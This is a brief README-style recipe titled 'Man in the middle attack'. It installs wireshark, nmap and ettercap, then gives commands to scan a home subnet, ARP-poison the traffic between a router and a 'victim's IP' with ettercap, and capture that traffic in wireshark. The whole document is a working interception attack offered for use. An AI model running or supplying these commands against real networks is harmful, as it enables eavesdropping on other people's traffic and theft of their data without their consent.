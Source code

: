 # Man in the middle attack

1. wireshark    apt install wireshark
2. nmap         apt install nmap
3. ettercap     apt install ettercap-text-only

```console
sudo nmap -sn <subnetForHomeNetwork>
sudo ettercap -T -S -i <wlan0> -M arp:remote /<routerIP>// /<victim'sIP>//
sudo wireshark
```
